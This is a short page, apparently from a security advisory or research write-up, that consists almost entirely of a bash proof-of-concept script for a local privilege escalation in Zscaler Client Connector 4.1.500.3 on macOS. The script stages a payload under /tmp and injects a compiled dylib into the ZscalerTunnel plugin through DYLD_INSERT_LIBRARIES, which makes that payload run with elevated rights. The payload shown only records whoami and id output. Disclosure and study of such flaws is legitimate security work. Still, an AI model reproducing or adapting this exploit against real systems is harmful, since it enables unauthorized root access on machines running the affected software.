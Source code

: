 
## Local Privilege Escalation Exploit
The following setup can be used to carry out the exploitation steps automatically. 
```bash
#!/bin/bash

#
# Zscaler Client Connector 4.1.500.3 Local Privilege Escalation
# Filename: go.sh
#

echo "[i] 0) whoami; id; uname -a; hostname"
whoami; id; uname -a; hostname

echo " "
echo "[i] 1) Setup"
echo "    [*] 1.1) Removing previous attempt if existing"
rm -rf /tmp/Contents 2>/dev/null

echo "    [*] 1.2) Creating directory"
mkdir -p /tmp/Contents/MacOS/

echo "    [*] 1.3) Creating exploit script"
cat << EOF > /tmp/Contents/MacOS/installbuilder.sh
#!/bin/bash
whoami > /tmp/whoami.txt && id >> /tmp/whoami.txt && uname -a >> /tmp/whoami.txt && date >> /tmp/whoami.txt
EOF

echo "    [*] 1.4) Setting executable bit on exploit & revert script"
ls /tmp/Contents/MacOS/installbuilder.sh
chmod +x /tmp/Contents/MacOS/installbuilder.sh

echo " "
echo "[i] 2) Compiling dylib for env var injection"
EXPLOIT=installRevertZCC
rm -rf $EXPLOIT.dylib
gcc -dynamiclib -framework Cocoa -framework Foundation -framework Security $EXPLOIT.m -o $EXPLOIT.dylib

echo " "
echo "[i] 3) Performing env var injection"
DYLD_INSERT_LIBRARIES=$EXPLOIT.dylib /Applications/Zscaler/Zscaler.app/Contents/PlugIns/ZscalerTunnel

echo " "
echo "[i] 4) Reading resultant output logfile"
cat /tmp/whoami.txt

echo " "
echo "[i] 5) Removing dylib"
rm -rf $EXPLOIT.dylib
```
